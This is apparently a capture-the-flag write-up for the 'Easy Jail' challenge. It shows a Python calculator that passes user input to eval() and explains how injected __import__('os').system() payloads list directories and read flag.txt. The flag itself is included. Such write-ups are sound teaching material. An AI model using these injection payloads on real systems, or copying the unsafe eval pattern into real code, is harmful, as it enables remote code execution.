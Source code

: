 # Easy Jail
Description - "I made this calculator. I have a feeling that it's not safe :( "


## flag
```
KashiCTF{3V4L_41NT_54F3_IyGdK9hp}
```
## Solution 
We were given a `netcat` link which upon instantiating, showed this:

![calcImage](./img/Heading.png) 

along with a zip file that contained the python source code:
```
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```

## Steps
Upon inspecting the source code, we see that it uses the `eval` function, which is vulnerable as it can be used for `RCE (Remote Code Execution)` .

Which gives the idea for giving the input as: 
> `__import__('os').system('ls')`

Upon executing this, we get the list of programs present, which is same as those present in the given zip file.

![ls](./img/first.png)


So, we went to the parent folder, and checked the files present there.
> `__import__('os').system('cd ..; ls')`

This gives a whole lot of folders and files, among which there is a `flag.txt`.

![cd .. ls](./img/second.png)

So, we run the command:

> `__import__('os').system('cd ..; cat flag.txt')`

![cd .. cat flag.txt](./img/final.png)

which gives us the flag as:
### `KashiCTF{3V4L_41NT_54F3_IyGdK9hp}`